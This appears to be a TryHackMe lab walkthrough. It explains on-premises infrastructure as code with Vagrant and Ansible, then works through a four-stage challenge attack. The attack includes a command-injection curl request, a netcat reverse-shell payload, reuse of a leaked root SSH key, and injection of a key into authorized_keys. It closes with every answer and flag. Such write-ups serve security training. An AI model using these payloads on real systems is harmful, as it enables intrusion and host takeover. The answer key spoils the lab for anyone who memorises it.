



## Overview

[On-Premises IaC](https://tryhackme.com/room/onpremisesiac) is the second room in Section 5 (Infrastructure as Code) of the TryHackMe DevSecOps learning path. While modern enterprise workflows frequently leverage public cloud service providers, on-premises infrastructure as code remains an operational necessity in heavily regulated industries such as finance, defense, healthcare, and government.

This walkthrough covers:
- Core drivers, benefits, and architectural trade-offs of on-premises IaC
- Multi-machine provisioning with HashiCorp Vagrant (providers, boxes, Vagrantfiles)
- Configuration management with Ansible (playbooks, roles, Jinja2 templates, variable interpolation)
- Chaining Vagrant and Ansible into a unified on-prem provisioning workflow
- Common real-world IaC security pitfalls (dependencies, default credentials, incomplete hardening, and remote execution as a feature)
- Hands-on exploitation of an on-premises IaC pipeline across four attack stages to achieve host root takeover

---

## 1. Why On-Premises IaC Matters

The decision between public cloud and on-premises IaC centers on control, regulatory compliance, and security responsibility.

### SaaS vs Self-Hosted Case Study: GitHub vs GitLab

Consider source code management:
- **GitHub (SaaS):** The underlying infrastructure, operating systems, and physical hypervisors are managed entirely by Microsoft/GitHub. While this eliminates hardware maintenance overhead, organizations transfer infrastructure control to a third party. If the SaaS provider suffers an internal breach or exposed credentials, proprietary source code and pipeline tokens can be compromised.
- **GitLab (Self-Hosted On-Premises):** The organization controls the entire physical and virtual stack. The GitLab instance can be strictly isolated within an internal network reachable only via corporate VPN, completely removing public internet exposure.

### Trade-Off Matrix: On-Premises vs Cloud IaC

| Evaluation Factor | On-Premises IaC | Cloud-Based IaC |
|---|---|---|
| **Control & Customization** | Complete control over hypervisors, networks, storage, and security policies. | Constrained by cloud service provider (CSP) API boundaries and shared responsibility models. |
| **Data Protection & Compliance** | Ideal for strict data sovereignty, GDPR, HIPAA, and PCI-DSS where data cannot reside on third-party hardware. | Relies on CSP compliance certifications and specialized regions (e.g., AWS GovCloud). |
| **Scalability** | Rigid. Bound by physical server capacity, procurement timelines, and rack availability. | Elastic. Compute capacity scales up and down programmatically on demand. |
| **Cost Model** | High initial CAPEX (servers, switches, power, cooling), but no recurring monthly compute billing. | Low initial setup cost, but continuous OPEX billing based on resource consumption. |
| **Security Responsibility** | The organization owns 100% of the stack, from physical cabling to application code. | Shared responsibility: CSP manages physical hardware, customer manages guest OS and configuration. |

---

## 2. Vagrant & Ansible Tooling Primitives

On-premises pipelines frequently pair a virtual machine/container provisioner (Vagrant) with a configuration management engine (Ansible).



### Vagrant Fundamentals

Vagrant builds and maintains reproducible virtual development environments. Key concepts include:
- **Provider:** The virtualization technology used to stand up the machines. Supported providers include VirtualBox, VMware, Hyper-V, and Docker.
- **Box:** Pre-packaged base images (e.g., `ubuntu/bionic64`) pulled from public repositories (Vagrant Cloud) or hosted in private enterprise registries.
- **Vagrantfile:** A Ruby DSL configuration file defining hostnames, allocated CPU/memory, network interfaces (static IPs or bridged interfaces), synced folders, and provisioning scripts.
- **Provisioners:** Automated tools executed after machine creation to install software and configure services (e.g., shell scripts, Ansible, Puppet, Chef).
- **Core CLI Commands:**
  - `vagrant up`: Provisions all defined hosts sequentially.
  - `vagrant up <hostname>`: Provisions only the specified host.
  - `vagrant ssh <hostname>`: Drops directly into a shell on the target instance.
  - `vagrant halt` / `vagrant destroy`: Stops or permanently deletes virtual machines.

### Ansible Fundamentals

Ansible handles post-boot configuration management using an agentless, push-based architecture over SSH or WinRM:
- **Playbook:** A YAML manifest describing tasks, target hosts (`hosts: all`), privilege escalation (`become: yes`), and assigned roles.
- **Template:** Base configuration files (e.g., SQL scripts, web server configs) written with Jinja2 placeholders (e.g., `{{ db_password }}`). Ansible substitutes variables dynamically at execution time.
- **Role:** A standardized, modular collection of instructions, templates, default variables, and handlers organized into a structured directory tree (`defaults/`, `tasks/`, `templates/`, `vars/`). Assigning a role to a host executes its complete workflow.
- **Variable Precedence:** Allows setting global defaults in `defaults/main.yml` while selectively overriding them for specific environments via `vars_files` (e.g., `variables/var.yml`).

---

## 3. Building an On-Premises IaC Pipeline (Task 5)

In Task 5, we inspect and deploy an on-premises multi-tier web application using Vagrant and Ansible located in `/home/ubuntu/iac/`.

### Analyzing the Pipeline Configuration

The `Vagrantfile` orchestrates two Docker containers attached to an isolated internal Docker bridge network (`172.20.128.0/24`):

```ruby
Vagrant.configure("2") do |config|
  # Database Backend
  config.vm.define "dbserver" do |cfg|
    cfg.vm.network :private_network, type: "dhcp", docker_network__internal: true
    cfg.vm.network :private_network, ip: "172.20.128.3", netmask: "24"
    cfg.vm.provider "docker" do |d|
      d.image = "mysql"
      d.env = { "MYSQL_ROOT_PASSWORD" => "mysecretpasswd" }
    end
  end

  # Web Frontend
  config.vm.define "webserver" do |cfg|
    cfg.vm.network :private_network, type: "dhcp", docker_network__internal: true
    cfg.vm.network :private_network, ip: "172.20.128.2", netmask: "24"
    cfg.vm.synced_folder "./provision", "/tmp/provision"
    cfg.vm.provider "docker" do |d|
      d.image = "ansible2"
      d.has_ssh = true
      d.cmd = ["/usr/sbin/sshd", "-D"]
    end
    cfg.ssh.username = 'root'
    cfg.ssh.private_key_path = "/home/ubuntu/iac/keys/id_rsa"
    cfg.vm.provision "shell", inline: "ansible-playbook /tmp/provision/web-playbook.yml"
  end
end
```

### Ansible Role Decomposition

The web server provisioning executes `web-playbook.yml`, which invokes the `webapp` role. Its tasks are split cleanly:
1. **Database Initialization (`db-setup.yml`):**
   - Creates a temporary directory `/tmp/sql`
   - Injects variables (`{{ db_name }}`, `{{ db_user }}`, `{{ db_password }}`, `{{ db_host }}`) into `createdb.sql` and `createsp.sql` templates
   - Executes SQL creation scripts against the MySQL database at `172.20.128.3`
   - Cleans up `/tmp/sql`
2. **Application Deployment (`app-setup.yml`):**
   - Copies web application files to the filesystem root `/app`
   - Uses `template` to inject database connection strings into `app.py`

### Provisioning Execution and Flag Retrieval

Executing the pipeline from `/home/ubuntu/iac/`:

```bash
ubuntu@tryhackme:~/iac$ vagrant up
```

Once provisioning completes, verifying running containers via Docker:

```bash
ubuntu@tryhackme:~$ docker ps
CONTAINER ID   IMAGE      COMMAND                  STATUS         PORTS                   NAMES
04fc30613dd6   mysql      "docker-entrypoint.s…"   Up 5 minutes   3306/tcp, 33060/tcp     iac_dbserver_1706019401
5529f04a2509   ansible2   "/usr/sbin/sshd -D"      Up 5 minutes   127.0.0.1:2222->22/tcp  iac_webserver_1706019400
```

Launching the Flask application inside the container:

```bash
ubuntu@tryhackme:~/iac$ vagrant docker-exec -it webserver -- python3 /app/app.py
```

Navigating to `http://172.20.128.2/` in the local browser, registering a new user account, and authenticating displays the Task 5 flag:

```text
Flag: THM{IaC.Pipelines.Can.Be.Fun}
```

---

## 4. On-Premises IaC Security Pitfalls

Task 6 outlines four primary threat vectors present in on-premises IaC architectures:



1. **Vulnerable Dependencies:** Base images (`ubuntu/bionic64` or container layers) are often pulled without automated vulnerability scanning. An unpatched kernel vulnerability in a base image propagates to all instances deployed across the corporate network.
2. **Unaltered Defaults:** IaC provisioners frequently rely on default administrative accounts (such as `vagrant:vagrant` for WinRM/SSH or `root:mysecretpasswd` for databases) to configure nodes. If the pipeline fails to strip or rotate these credentials in a final cleanup step, systems remain vulnerable to trivial credential stuffing.
3. **Insufficient Hardening:** Management interfaces enabled strictly for provisioning (e.g., WinRM on port 5985 or SSH on port 22) are frequently left running and internet-accessible post-deployment.
4. **Remote Code Execution (RCE) as a Feature:** IaC engines are designed specifically to execute arbitrary commands and modify system state with elevated privileges. An attacker who gains write access to a `Vagrantfile`, an Ansible playbook, or an exposed CI/CD runner effectively inherits root-level execution across the infrastructure.

---

## 5. Attacking On-Premises IaC (Task 7 Challenge)

Task 7 presents a vulnerable, multi-tier on-premises IaC deployment. We are provided with low-privilege SSH credentials on the host:
- **Username:** `entry`
- **Password:** `entry`
- **Host IP:** `<MACHINE_IP>`

Our objective is to uncover four sequential flags demonstrating the full compromise of the pipeline:



### Stage 1: Initial Reconnaissance & Flag 1 Extraction

We begin by establishing an SSH connection to the host:

```bash
ssh entry@<MACHINE_IP>
```

Inspecting network interfaces and active routes reveals an internal bridge interface hosting the `172.20.128.0/24` subnet. We inspect the IaC directory (`/home/entry/iac` or `/home/ubuntu/iac`) to review the `Vagrantfile`. The configuration reveals two internal targets:
- `dbserver`: `172.20.128.3` (MySQL)
- `webserver`: `172.20.128.2` (Web application running on port 80)

Because `172.20.128.2:80` is internal, we forward port 80 to our local machine through our SSH session:

```bash
ssh -N -L 8080:172.20.128.2:80 entry@<MACHINE_IP>
```

Navigating to `http://localhost:8080/` displays the login interface. On the sign-in page, there is a developer diagnostic button labeled **"Test Dev Database"**. 

Examining the application source code in the templates directory reveals that this button invokes a backend endpoint that executes a shell command to check connectivity:

```python
# Vulnerable snippet in app.py
command = request.form.get('command')
os.system("ping -c 1 " + command)
```

The endpoint accepts an unsanitized command parameter. We exploit this command injection vulnerability by appending shell commands:

```bash
curl -X POST http://localhost:8080/test -d "command=127.0.0.1; cat flag1-of-4.txt"
```

The response returns the first flag:

```text
Flag 1: THM{Dev.Bypasses.and.Checks.can.be.Dangerous}
```

### Stage 2: Reverse Shell & Deployment Key Extraction (Flag 2)

We exploit the same command injection vulnerability to catch an interactive reverse shell on the `webserver` container. We start a Netcat listener on the host:

```bash
nc -lvnp 4444
```

We send our reverse shell payload through the injection parameter:

```bash
curl -X POST http://localhost:8080/test -d "command=127.0.0.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <HOST_IP> 4444 >/tmp/f"
```

Our listener catches the shell running inside the container:

```bash
whoami
# www-data
```

During post-exploitation enumeration, we inspect the `/vagrant` directory and provision shared paths. The IaC pipeline left deployment private keys and credential archives directly in the filesystem:

```bash
ls -la /vagrant/keys/
cat /vagrant/keys/flag2-of-4.txt
```

Extracting the file yields Flag 2:

```text
Flag 2: THM{IaC.Deployment.Keys.Must.be.Removed}
```

### Stage 3: Synced Folder Abuse (Flag 3)

The discovered deployment key (`/vagrant/keys/id_rsa`) matches the SSH private key configured in the `Vagrantfile` for the container's root user. From our host session, we log into the `webserver` container directly as root:

```bash
ssh -i /home/entry/iac/keys/id_rsa root@172.20.128.2
```

We examine the mount points and directory sync configurations declared in the `Vagrantfile`:

```ruby
cfg.vm.synced_folder "/home/ubuntu/shared", "/tmp/datacopy"
```

The pipeline created a bidirectional synced folder between the host and `/tmp/datacopy` inside the container. Checking this directory:

```bash
root@webserver:~# ls -la /tmp/datacopy/
-rw-r--r-- 1 root root 42 Jan 23 10:14 flag3-of-4.txt
root@webserver:~# cat /tmp/datacopy/flag3-of-4.txt
```

This returns Flag 3:

```text
Flag 3: THM{IaC.Shares.Should.be.Restricted}
```

### Stage 4: Escalation to Host Root (Flag 4)

Because the synced folder is mapped bidirectionally to a path accessible by the `ubuntu` user on the host, we can leverage this mount to hijack host authentication. 

From inside the container as root:
1. Generate an SSH keypair:
   ```bash
   ssh-keygen -t rsa -f /tmp/id_rsa -N ""
   ```
2. Append the newly generated public key into the host user's `authorized_keys` file through the shared folder mapping (or write directly to `/home/ubuntu/.ssh/authorized_keys`):
   ```bash
   cat /tmp/id_rsa.pub >> /tmp/datacopy/authorized_keys
   # Or directly into the host synced path
   ```
3. Returning to the host machine, log in as `ubuntu` using the generated private key:
   ```bash
   ssh -i /tmp/id_rsa ubuntu@127.0.0.1
   ```
4. Verify sudo privileges:
   ```bash
   ubuntu@tryhackme:~$ sudo -l
   # (ALL : ALL) NOPASSWD: ALL
   ubuntu@tryhackme:~$ sudo -i
   root@tryhackme:~# cat /root/flag4-of-4.txt
   ```

Extracting the root flag completes the challenge:

```text
Flag 4: THM{Provisioners.Usually.Have.Privileged.Access}
```

---

## 6. Question, Answer, and Flag Summary

| Task # | Task Title | Question / Challenge | Answer / Flag |
|---|---|---|---|
| **Task 1** | Introduction | I am ready to learn about on-prem IaC! | *No answer needed* |
| **Task 2** | Why On-Premises | If I want more control over my pipeline, should I use an on-prem IaC pipeline? (Yea/Nay) | `Yea` |
| **Task 2** | Why On-Premises | If I want to have a flexible and easily scalable deployment, should I use an on-prem IaC pipeline? (Yea/Nay) | `Nay` |
| **Task 2** | Why On-Premises | If I have strict data protection regulations enforced on my organisation, should I use an on-prem IaC pipeline? (Yea/Nay) | `Yea` |
| **Task 3** | Vagrant Basics | What is the name of the file that Vagrant uses for provisioning? | `Vagrantfile` |
| **Task 3** | Vagrant Basics | What command can be used to provision all hosts with Vagrant? | `vagrant up` |
| **Task 3** | Vagrant Basics | What command can be used to provision only the webserver host with Vagrant? | `vagrant up webserver` |
| **Task 4** | Ansible Basics | What is the name given to the file that Ansible will provision? | `Playbook` |
| **Task 4** | Ansible Basics | What is the name given to an Ansible file that will be updated, through the injection of Ansible variables, to create a final file during the provisioning process? | `Template` |
| **Task 4** | Ansible Basics | What is the name given to an Ansible collection that can be provisioned with a single configuration request? | `Role` |
| **Task 5** | Building an On-Prem IaC Workflow | What is the flag displayed on the web application that is hosted after your IaC pipeline provisioning? You will need to create a profile and authenticate to view the flag. | `THM{IaC.Pipelines.Can.Be.Fun}` |
| **Task 6** | Security Concerns in On-Prem IaC | I understand the potential security concerns with using IaC pipelines and I'm ready to put my knowledge to the test! | *No answer needed* |
| **Task 7** | Attacking On-Prem IaC | What is the value stored in the flag1-of-4.txt file? | `THM{Dev.Bypasses.and.Checks.can.be.Dangerous}` |
| **Task 7** | Attacking On-Prem IaC | What is the value stored in the flag2-of-4.txt file? | `THM{IaC.Deployment.Keys.Must.be.Removed}` |
| **Task 7** | Attacking On-Prem IaC | What is the value stored in the flag3-of-4.txt file? | `THM{IaC.Shares.Should.be.Restricted}` |
| **Task 7** | Attacking On-Prem IaC | What is the value stored in the flag4-of-4.txt file? | `THM{Provisioners.Usually.Have.Privileged.Access}` |
| **Task 8** | Conclusion | I understand on-prem IaC pipelines and know what to look for to keep them secure! | *No answer needed* |

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
